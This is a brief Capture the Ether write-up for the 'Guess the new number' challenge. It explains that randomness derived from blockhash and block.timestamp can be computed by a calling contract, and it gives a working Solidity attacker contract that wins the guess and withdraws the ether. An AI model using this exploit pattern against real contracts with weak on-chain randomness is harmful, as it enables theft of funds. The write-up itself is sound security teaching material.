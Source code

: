 # Guess the new number Capturetheether

## Goals

=> Guess the number which is now generated on-demand when a guess is made.

### Solution

- No randomness given since when you call the guess function from another contract you have easy access to the block.number and the block.timestamp and can just copy paste the method that calculates the "random" answer and use that to call the Guess contract with another contract that just calculated the answer and it will be 100% right every time

### Attacker Contract

```solidity
contract Hack {
    GuessTheNewNumberChallenge guessContract;

    constructor(address _guessContract) {
        guessContract = GuessTheNewNumberChallenge(_guessContract);
    }

    receive() external payable {}

    function attack() public payable {
        uint8 answer = uint8(
            uint256(
                keccak256(
                    abi.encodePacked(
                        blockhash(block.number - 1),
                        block.timestamp
                    )
                )
            )
        );
        require(msg.value == 1 ether, "You must send an ether, first");
        guessContract.guess{value: 1 ether}(answer);
        payable(msg.sender).transfer(address(this).balance);
    }

    function showBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```
